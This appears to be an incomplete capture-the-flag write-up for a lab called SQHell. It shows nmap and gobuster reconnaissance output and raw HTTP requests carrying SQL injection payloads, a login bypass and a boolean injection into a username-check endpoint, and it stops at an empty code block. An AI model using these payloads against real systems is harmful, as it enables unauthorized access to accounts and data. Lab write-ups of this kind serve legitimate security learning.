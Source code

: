 # SQHell

Author: [siddicky](https://github.com/siddicky)
Link: [SQHell](https://github.com/siddicky/sqhell)


## Task:1
    defining the variable: IP address in this case.
    ```
    export IP=10.10.46.216
    ```

## Task:2
    running nmap on the selected IP address
    Result:
    ```
        Port 22 is open
        Port 80 is open
    ```
    did not found enough usefull information with the normal nmap scan so digging deeper.
    
    nmap -p22,80 -sV -sC -Pn -T4 -oA 10.10.46.216 10.10.46.216
        
        ### OUTPUT
        ``` 
        Nmap scan report for 10.10.46.216
        Host is up (0.16s latency).
        
        PORT   STATE SERVICE VERSION
        22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
        | ssh-hostkey: 
        |   3072 d3:27:57:52:52:b4:96:b9:a0:6d:be:78:70:0c:1f:80 (RSA)
        |   256 fd:62:35:7b:db:46:5b:12:54:f1:a3:ce:42:d0:3a:6c (ECDSA)
        |_  256 8a:88:81:99:f1:0b:7b:c4:96:90:a6:40:c1:fe:cd:3e (ED25519)
        80/tcp open  http    nginx 1.18.0 (Ubuntu)
        |_http-server-header: nginx/1.18.0 (Ubuntu)
        |_http-title: Home
        Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
        ```
    
    we can do nothing with the SSH without the key so rather focus on the webserver.

## Task:3
    Use Gobuster to find the URIs and subdomains
    ```
    ===============================================================
    Gobuster v3.6
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://10.10.46.216
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-1.0.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.6
    [+] Timeout:                 10s
    ===============================================================
    Starting gobuster in directory enumeration mode
    ===============================================================
    /register             (Status: 200) [Size: 2593]
    /login                (Status: 200) [Size: 1763]
    /post                 (Status: 200) [Size: 21]
    /user                 (Status: 200) [Size: 21]
    /terms-and-conditions (Status: 200) [Size: 1778]
    ===============================================================
    Finished
    ===============================================================
    ```
## Task:4
    Visiting the Web-server
   ### HomePage 
    ![Home Webpage](./../home_website.png "Website Home page")
 
   ### login Page
    ![Login Webpage](./../home_website.png "Website Login page")
    
    Using Burp on the login page and editing the password input to get SQLi
    as we test for different payload, one of which works is:

    ```
    POST /login HTTP/1.1
    Host: 10.10.46.216
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 51
    Origin: http://10.10.46.216
    Connection: close
    Referer: http://10.10.46.216/login
    Upgrade-Insecure-Requests: 1
    
    username=administrator&password=%27OR%271%27%3D%271
    ```
    once we send this request:
        we notice that we are logged in and retrive the flag1
        Happy :)
        that was easy, right?
   ### post Page
    ![Post Webpage](./../home_website.png "Website Post page")

   ### register Page
    ![Register Webpage](./../home_website.png "Website Register page")
   
    once we go to the register page we notice that registrations are closed and there's no Post request made to the server, but there's a trick here:
    there's a username validator which checks for avaliablity for the username, we can check if it's vulnerable:

    ```
    GET /register/user-check?username=admin+OR+'1'%3d'1 HTTP/1.1
    Host: 10.10.46.216
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    X-Requested-With: XMLHttpRequest
    Connection: close
    Referer: http://10.10.46.216/register
    ```
    This gives us true, but username admin is already taken which suggests this is vulnerable to SQLi.
    what next?
    we can exploit this to find the next flag!
    
    ```
     
    ```
     
   ### user Page
    ![User Webpage](./../home_website.png "Website User page")
    
   ### terms-and-conditions Page
    ![Terms and Conditions Webpage](./../home_website.png "Website Terms and Conditions page")
          
